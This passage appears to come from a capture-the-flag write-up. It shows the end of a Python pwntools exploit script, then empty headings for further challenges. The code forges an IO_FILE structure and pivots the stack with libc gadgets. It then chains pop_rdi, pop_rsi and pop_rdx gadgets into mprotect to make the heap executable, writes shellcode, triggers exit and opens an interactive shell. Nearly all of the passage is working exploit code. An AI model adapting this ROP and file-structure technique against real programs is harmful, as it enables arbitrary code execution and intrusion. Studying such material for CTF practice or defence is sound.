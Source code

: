 ```python

data += p64(fake_IO_FILE + 0x2a0)
data += p64(0)
data += p64(libc_base + 0x162f64)
data = data.ljust(0x2a0, b"\x00")

data += p64(0)
data += p64(fake_IO_FILE + 0x2e0)
data += p64(libc_base + 0x167420) + b"\x00"*0x20
data += p64(fake_IO_FILE + 0x2a0)
data = data.ljust(0x2e0, b"\x00")

data += p64(libc_base + 0xd2ba5)+0x18*b"\x00"
data += p64(libc_base + 0x5a120)+0x8*b"\x00" # mov_rsp_rdx

data += p64(libc_base + 0x2a3e5) # pop_rdi
data += p64(heap_base)
data += p64(libc_base + 0x2be51) # pop_rsi
data += p64(0x10000)
data += p64(libc_base + 0x904a9) # pop_rdx_rbx
data += p64(7)
data += p64(0)
data += p64(libc_base + libc.sym['mprotect'])
data += p64(heap_base + 0x3000)

data = data.ljust(0x360,b'\x00')
edit(2,0x500,b'a'*0x1a0+data)
edit(4,0x100,shellcode)

Exit()

p.interactive()

```

## SuperHeap

## magic_vm

